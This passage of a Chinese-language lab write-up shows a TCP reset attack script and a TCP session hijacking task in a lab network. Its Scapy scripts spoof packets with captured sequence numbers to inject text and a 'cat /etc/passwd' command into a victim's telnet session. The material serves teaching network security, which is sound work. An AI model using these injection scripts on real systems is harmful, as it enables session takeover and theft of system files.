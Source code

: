 ```python
seqTCP=dpkt[n][TCP].seq
tcp = TCP(sport=sportTCP, dport=dportTCP, flags="R", seq=seqTCP)

pkt = ip/tcp
ls(pkt)
send(pkt, verbose=0)
```

在attacker机器上运行代码，攻击成功：

![image-20220511215922424](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012331535.png)

## Task 3: TCP Session Hijacking

通过向TCP会话中注入恶意内容来劫持两个受害者之间的现有TCP连接，实现TCP会话劫持攻击。

同样首先在10.9.0.6和10.9.0.7两台主机中建立telnet连接。同样通过抓包获得源&目的IP，源&目的端口号和序列号：

![image-20220511203842289](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012331763.png)

根据抓包中获得数据补充相应内容。

seq仍然是wireshark中会显示的next sequence number。

ack的推断如图：

![未命名文件](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332224.jpg)

先尝试发送字符串：

```python
#!/usr/bin/env python3

from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.7")
tcp = TCP(sport=46010, dport=23, flags="A", seq=3129060118, ack=2667700963)
data = "Task3 TCP Session Hijacking"	# 构造data段

pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

在attacker主机上运行程序，可以在load字段看到data payload：

![image-20220511204031749](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332148.png)

同样可以在wireshark中抓到自己的包：

![image-20220511204126269](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207012332689.png)

再尝试在data中构造命令`cat /etc/password`：

```python
#!/usr/bin/env python3

from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.7")
tcp = TCP(sport=46044, dport=23, flags="A", seq=1898635557, ack=3050792738)
data = "cat /etc/passwd\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```
